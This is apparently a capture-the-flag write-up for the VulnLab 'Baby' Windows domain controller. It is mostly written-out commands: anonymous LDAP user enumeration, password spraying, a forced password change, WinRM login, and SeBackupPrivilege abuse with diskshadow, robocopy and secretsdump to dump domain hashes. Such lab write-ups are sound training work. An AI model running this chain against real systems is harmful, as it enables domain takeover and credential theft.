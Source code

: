 ```yaml
---
layout: post
title: VulnLab - Baby
date: 15-04-2025
categories: [Machines]
tags: [ldap, anonymous, SeBackupPrivilege, smbpasswd]
image: "https://images-ext-1.discordapp.net/external/iTsNgpEcu1U88J1FvpyBi4VwhZZRBo0W6Rd5ARdznbE/https/assets.vulnlab.com/baby_slide.png?format=webp&quality=lossless"
---
```


## Scanning

```bash
➜  Baby nmap -Pn -T4 -sC -sV -p- 10.10.116.106 -oN reports/all_tcp.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-13 03:14 EAT
Nmap scan report for 10.10.116.106 (10.10.116.106)
Host is up (0.19s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-13 00:24:14Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-04-13T00:25:46+00:00; +4s from scanner time.
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Not valid before: 2025-04-11T23:48:27
|_Not valid after:  2025-10-11T23:48:27
| rdp-ntlm-info: 
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   DNS_Tree_Name: baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-04-13T00:25:06+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
60933/tcp open  msrpc         Microsoft Windows RPC
60948/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3s, deviation: 0s, median: 3s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-04-13T00:25:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 670.17 seconds

```

## Enumeration

### LDAP

**Anonymous Access**

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl"
```

**Users**

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl" -D 'baby.vl' 'objectClass=user' | grep "sAMAccountName:" | cut -d' ' -f2 | tee loots/users.txt
```
![alt text](/assets/screenshots/image1.png)

Descriptions

```bash
ldapsearch -x -H ldap://10.10.116.106 -b "DC=baby,DC=vl" -D 'baby.vl' 'objectClass=user' | grep "description:"
```
![alt text](/assets/screenshots/image2.png)

### SMB

```bash
nxc smb 10.10.116.106 -u loots/users.txt -p 'BabyStart123!' --continue-on-success
```
![alt text](/assets/screenshots/image3.png)

Password Change

```bash
smbpasswd -r 10.10.116.106 -U Caroline.Robinson
```

![image](https://www.notion.so/image/attachment%3A05b5e0ca-390a-4177-93b8-e35d16df897c%3Aimage.png?table=block&id=1d43d2c4-89f6-809b-8d18-d1db8585fea6&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

![image](https://www.notion.so/image/attachment%3Adb4dad91-4b41-4c20-9be5-ddcb4e2aac1d%3Aimage.png?table=block&id=1d43d2c4-89f6-800f-ac4c-f8e2119ddd37&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

```bash
nxc smb 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!' --users
```

![image](https://www.notion.so/image/attachment%3A25f57ada-baf4-4c58-971b-ceec561bab1b%3Aimage.png?table=block&id=1d43d2c4-89f6-80b1-b9c3-e39f183bc325&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

### Bloodhound

```bash
bloodhound-python -d baby.vl  -c all -u 'Caroline.Robinson' -p 'NewSecurePass123!'  -ns 10.10.116.106 --zip
```

![image](https://www.notion.so/image/attachment%3Aabb5435f-cbb9-4545-9e89-de1e97c36b6b%3Aimage.png?table=block&id=1d43d2c4-89f6-805b-afa4-ee34d032ccef&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

First Degree Group Membership

![image](https://www.notion.so/image/attachment%3Ad0bf5e4e-f85b-4572-bf11-ea02f49caf53%3Aimage.png?table=block&id=1d43d2c4-89f6-806b-be52-c7f751f68f00&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

## Initial Access

```bash
nxc winrm 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!'
```

![image](https://www.notion.so/image/attachment%3A6d9b5578-ff7b-4256-bc6e-5cba314f6c2a%3Aimage.png?table=block&id=1d43d2c4-89f6-8083-b950-da80549d037e&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

```bash
evil-winrm -i 10.10.116.106 -u Caroline.Robinson -p 'NewSecurePass123!'
```

![image](https://www.notion.so/image/attachment%3A285aca5c-0905-44ce-a5f5-41b3c7d8c40a%3Aimage.png?table=block&id=1d43d2c4-89f6-80b4-8c0f-e784b08e0999&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

## PrivEsc

![image](https://www.notion.so/image/attachment%3Af467d9ad-d930-45d5-8ce4-c89e693b6d2a%3Aimage.png?table=block&id=1d43d2c4-89f6-80b8-9502-dc58a986ac98&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

vss.dsh

```bash
set context persistent nowriters
set metadata c:\programdata\cyb4x.cab
set verbose on
add volume c: alias cyb4x
create
expose %cyb4x% z:
```

![image](https://www.notion.so/image/attachment%3Af467d9ad-d930-45d5-8ce4-c89e693b6d2a%3Aimage.png?table=block&id=1d43d2c4-89f6-80b8-9502-dc58a986ac98&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

```bash
diskshadow /s vss.dsh
```

![image](https://www.notion.so/image/attachment%3A9bae947d-2427-40a8-9a2d-257f5a30472c%3Aimage.png?table=block&id=1d43d2c4-89f6-8004-a822-cee10cea7040&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

Copying

```bash
robocopy /b z:\windows\ntds . ntds.dit
```

![image](https://www.notion.so/image/attachment%3A9bae947d-2427-40a8-9a2d-257f5a30472c%3Aimage.png?table=block&id=1d43d2c4-89f6-8004-a822-cee10cea7040&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

also

```bash
reg.exe save hklm\system system
```

download

![image](https://www.notion.so/image/attachment%3A8cc23693-5ecd-4051-83ed-689ac6d3bbb1%3Aimage.png?table=block&id=1d43d2c4-89f6-8046-a959-d847c4459f2f&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)

Dump secrets

```bash
secretsdump.py -system system -ntds ntds.dit local
```

![image](https://www.notion.so/image/attachment%3Ae5d49be1-1fef-495e-9b82-7569e4ed18e7%3Aimage.png?table=block&id=1d43d2c4-89f6-80f4-842a-d3321ab6e8a8&spaceId=5384ad7b-32cf-418d-869d-88e45a75b40a&width=2000&userId=0e6b7ce5-ad20-43e6-9208-1e3ee8ba82ae&cache=v2)